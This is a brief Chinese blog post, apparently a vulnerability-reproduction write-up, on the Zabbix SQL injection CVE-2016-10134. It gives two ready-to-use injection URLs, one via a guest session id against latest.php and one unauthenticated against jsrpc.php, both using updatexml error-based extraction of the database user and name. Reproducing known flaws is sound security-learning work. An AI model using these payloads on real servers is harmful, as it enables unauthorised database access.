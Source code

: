 ```yaml
---
title: zabbix sql注入(CVE-2016-10134)
date: 2020-07-21 22:18:04
categories: 漏洞复现
tags: zabbix
---
```


#### 背景

zabbix能监视各种网络参数，保证服务器系统的安全运营；并提供柔软的通知机制以让系统管理员快速定位/解决存在的各种问题。其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。

<!--more-->

####  复现过程

##### 游客登录注入

用账号`guest`（密码为空）登录游客账户，查看Cookie中的`zbx_sessionid`，复制后16位字符

![](http://qn.laohuan.xin/2020-07-20_19-29-51.png)

将复制的后16位字符作为参数sid的值，访问如下URL

```
http://IP:8080/latest.php?output=ajax&sid=9c763311eeda748a&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
```

成功爆出用户

![](http://qn.laohuan.xin/2020-07-20_19-35-38.png)

##### 无需登录注入

访问如下url

```
http://IP:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,database()),0)
```

成功爆出数据库

![](http://qn.laohuan.xin/2020-07-20_19-37-30.png)